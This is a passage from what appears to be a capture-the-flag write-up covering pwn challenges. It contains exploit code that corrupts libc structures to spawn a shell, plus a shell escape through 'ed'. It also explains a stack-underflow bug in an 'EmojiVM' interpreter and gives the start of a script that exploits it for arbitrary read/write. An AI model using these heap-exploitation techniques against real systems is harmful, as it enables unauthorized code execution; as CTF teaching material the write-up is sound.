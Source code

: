```python
    0xb40:p64(libc.address+0x3ec638),
    0xbb0:p16(0xd808)*0x100
}
r.recvuntil("Value:")
r.send("sh;\x00\x00"+fit(f,filler="\x00"))
r.sendline("echo 123\n\n\n")
r.sendline("echo 123\n\n\n")
r.recvuntil("123");
r.interactive()
```


> If only setting `__free_hook` to `system`, because `scanf("%lx")` only takes `[0-9a-f]` byte, we cannot do `system("sh")`.

> However , we can solve this challenge in a *misc* way: execute `ed`, then `!/bin/sh`.


### EmojiVM

The emojivm interpreter is also pwnable. The vulnerability is that, although the `pop` command will check the `sp`, other commands like `add` never check the underflow of stack. And the array of global buffers is just above the stack so that we can add the pointer with certain offset. 

With heap manipulation, we can place the structure of buffer B into content of buffer A, so that edit buffer A will change the pointer inside buffer B and achieve arbitrary read/write.

The program generating script and exploit is below.

```python
dd = {'and': 7, 'show': 20, 'jnz': 11, 'pop': 14, 'lessthan': 8, 'push_g': 15, 'xor': 6, 'add': 2, 'exit': 23, 'new': 17, 'jmp': 10, 'jz': 12, 'pop_g': 16, 'nop': 1, 'mult': 4, 'mod': 5, 'edit': 19, 'wcout': 22, 'push': 13, 'cmp': 9, 'show_stack': 21, 'minus': 3, 'delete': 18}

cmds = {1: '\xf0\x9f\x88\xb3', 2: '\xe2\x9e\x95', 3: '\xe2\x9e\x96', 4: '\xe2\x9d\x8c', 5: '\xe2\x9d\x93', 6: '\xe2\x9d\x8e', 7: '\xf0\x9f\x91\xab', 8: '\xf0\x9f\x92\x80', 9: '\xf0\x9f\x92\xaf', 10: '\xf0\x9f\x9a\x80', 11: '\xf0\x9f\x88\xb6', 12: '\xf0\x9f\x88\x9a', 13: '\xe2\x8f\xac', 14: '\xf0\x9f\x94\x9d', 15: '\xf0\x9f\x93\xa4', 16: '\xf0\x9f\x93\xa5', 17: '\xf0\x9f\x86\x95', 18: '\xf0\x9f\x86\x93', 19: '\xf0\x9f\x93\x84', 20: '\xf0\x9f\x93\x9d', 21: '\xf0\x9f\x94\xa1', 22: '\xf0\x9f\x94\xa2', 23: '\xf0\x9f\x9b\x91'}
nums = {0: '\xf0\x9f\x98\x80', 1: '\xf0\x9f\x98\x81', 2: '\xf0\x9f\x98\x82', 3: '\xf0\x9f\xa4\xa3', 4: '\xf0\x9f\x98\x9c', 5: '\xf0\x9f\x98\x84', 6: '\xf0\x9f\x98\x85', 7: '\xf0\x9f\x98\x86', 8: '\xf0\x9f\x98\x89', 9: '\xf0\x9f\x98\x8a', 10: '\xf0\x9f\x98\x8d'}

prog = ''
for i in range(10):
    if i==0:
        prog += cmds[dd['push']]
        prog += nums[8]
    elif i==7:
        prog += cmds[dd['push']]
        prog += nums[2]
        prog += cmds[dd['push']]
        prog += nums[8]
        prog += cmds[dd['mult']]
    else:
        prog += cmds[dd['push']]
        prog += nums[1]
    prog += cmds[dd['new']]

prog += cmds[dd['push']]
prog += nums[0]
prog += cmds[dd['edit']]

prog += cmds[dd['add']]
prog += cmds[dd['add']]
```